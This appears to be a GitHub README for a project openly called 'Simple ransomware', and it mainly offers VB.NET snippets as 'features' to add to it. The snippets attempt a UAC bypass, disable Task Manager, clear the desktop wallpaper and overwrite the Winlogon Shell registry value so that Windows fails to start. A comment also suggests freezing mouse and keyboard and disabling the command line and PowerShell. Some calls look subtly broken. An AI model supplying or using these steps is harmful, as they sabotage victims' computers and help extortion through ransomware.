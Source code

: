 # Monsters_inc_v1.0
Simple ransomware ..

        'You can develop the ransomware by adding some features such as :

        'Bypass UAC
        Process.Start("cmd", "/c SET __COMPAT_LAYER=RunAsInvoker")
        'Disable taskmanager
        My.Computer.Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System")
        My.Computer.Registry.SetValue("DisableTaskMgr", 1, RegistryValueKind.String)
        'Remove wallpaper desktop
        My.Computer.Registry.CurrentUser.CreateSubKey("Control Panel\\Desktop")
        My.Computer.Registry.SetValue("Wallpaper", "", RegistryValueKind.String)
        'If you shutdown your computer, you cant run winodws well
        My.Computer.Registry.CurrentUser.CreateSubKey("SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon")
        My.Computer.Registry.SetValue("Shell", "empty", RegistryValueKind.String)

        'Frazee mouse/keyboard + kill proccess + disable command line&Powershell

Video : https://youtu.be/DO442auD2ic<br>
Twitter : https://twitter.com/0xHunter
